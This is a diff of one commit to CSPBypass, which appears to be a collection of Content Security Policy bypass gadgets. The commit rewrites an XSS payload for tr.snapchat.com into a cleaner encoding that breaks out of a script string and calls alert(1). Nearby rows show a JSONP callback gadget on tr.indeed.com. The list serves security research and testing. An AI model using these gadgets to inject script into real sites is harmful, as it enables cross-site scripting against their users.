

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in ….

Commit message:
Clean version tr.snapchat.com

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -172,3 +172,3 @@ translate.yandex.net	<script src="https://translate.yandex.net/api/v1.5/tr.json/
 tr.indeed.com	<script src="https://tr.indeed.com/m/newjobs?q=&l=&ts=1734358724474&callback=alert"></script>
-tr.snapchat.com	<script src="https://tr.snapchat.com/config/com/%27%29%7d%63%61%74%63%68%28%65%29%7b%7d%7d%28%29%3b%61%6c%65%72%74%28%31%29%2f%2f.js"></script>
+tr.snapchat.com	<script src="https://tr.snapchat.com/config/com/')%7Dcatch(e)%7B%7D%7D()%3balert(1)%2f%2f.js"></script>
 udgnoz7mccyaowzp.public.blob.vercel-storage.com	<script src="https://udgnoz7mccyaowzp.public.blob.vercel-storage.com/a-LAZhjxXucrzBiROqCt4bsY3n6srlWP.js"></script>
```
